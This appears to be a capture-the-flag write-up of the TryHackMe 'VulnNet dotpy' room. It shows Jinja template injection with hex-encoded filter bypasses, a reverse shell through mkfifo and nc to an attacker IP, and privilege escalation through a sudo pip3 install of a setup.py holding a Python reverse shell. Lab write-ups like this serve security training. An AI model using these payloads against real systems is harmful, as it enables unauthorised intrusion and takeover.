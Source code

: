 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...


![](/images/D4rkDemian/dotpy1.png)


We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.


On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..


![](/images/D4rkDemian/dotpy3.png)


So we guessed it would be template injection and confirmed it by entering {{7*7}}.


So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..


```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

This worked and we got our output.


![](/images/D4rkDemian/dotpy6.png)


Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```py
/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen'
('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D

```

We replaced the percent sign with \x and . with \x2E as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing sudo -l we found that user web had the permission to run /usr/bin/pip3 as system-adm user .


So we created a setup.py file and placed the python reverse shell in it 


```py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py
```


Now listen on your local machine and run the following command in the shell 

```shell
sudo -u system-adm /usr/bin/pip3 install /tmp/shell
```

And now we are system-adm 


